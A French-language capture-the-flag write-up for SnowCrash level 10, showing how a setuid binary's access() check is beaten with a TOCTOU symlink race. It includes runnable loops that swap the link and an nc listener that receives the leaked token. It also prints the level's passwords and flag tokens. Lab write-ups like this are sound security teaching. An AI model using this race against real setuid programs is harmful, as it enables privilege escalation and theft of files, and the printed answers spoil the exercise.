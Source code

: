 # LEVEL 10

### Reconnaissance

En se connectant au level10, on a un binaire et un fichier token ou on a pas les droits de lecture dessus:

```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
```

En lancant le binaire, on voit qu'il attend un fichier et un client a qui se connecter:

```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
```

On peux téléchargé le binaire pour le reverse, sa nous permettra dans savoir plus dans son fonctionnement.

On voit 2 choses interessantes:

- Le port utilisé pour la connection (6969)
```
0x08048756      b87b8a0408     mov eax, str.Connecting_to__s:6969_.. ; .//level10.c:31 ; 0x8048a7b ; "Connecting to %s:6969 .. "
```
- L'utilisation de la fonction access
```
0x08048749      e892feffff     call sym.imp.access         ; int access(const char *path, int mode)
```

Essayons de faire fonctionné ce binaire

```
level10@SnowCrash:~$ echo 'testing' > /tmp/test1
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
level10@SnowCrash:~$ nc -l 6969 > /dev/pts/0 &
[1] 7697
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. testing
wrote file!
[1]+  Done                    nc -l 6969 > /dev/pts/0
```
Sa marche, maintenant intéressons nous a comment l'exploité ?

La fonction qui nous interesse (access) nous permet de faire une attaque de type : <a href="https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use">Time-of-check to time-of-use (**TOCTOU**)</a>

On a d'ailleur un super tutoriel <a href="https://samsclass.info/127/proj/E10.htm">ici</a>

Cette attaque joue sur le temps entre le moment ou le programme check l'acces (avec la fonction access) et le moment ou il ouvre le fichier:


Ok, maintenant qu'on a compris comment sa fonctionne on passe a la pratique !

### Exploitation


On ouvre 2 connections ssh:
- la première pour nos commande
- la deuxième pour recevoir les infos avec nc.
	
- **1er terminal**
```
	$ echo "public" > /tmp/public		# creation fichier ou on a des droits (normal, on le creer)
	$ ln -sf /tmp/public /tmp/flip		# creation d'un lien symbolique
	Si on lance notre binaire avec /tmp/public ou /tmp/flip, on aura exactement la meme chose.
	
	$ while true; do ln -sf $(pwd)/token /tmp/flip; ln -sf /tmp/public /tmp/flip; done &
	$ for i in {1..300}; do ./level10 /tmp/flip 127.0.0.1; done
```

- **2eme terminal**
```
	$ for i in {1..300}; do nc -l 6969; done
	[...]
	public
	.*( )*.
	.*( )*.
	public
	.*( )*.
	woupa2yuojeeaaed06riuj63c
	.*( )*.
	public
	.*( )*.
	public
	[...]
```

Et voila, le mot de passe pour l'user flag10 est: **woupa2yuojeeaaed06riuj63c**

*ps : le mot de passe fonctionne pour l'user flag11*
	
```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
level10@SnowCrash:~$ su flag11
Password: 
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
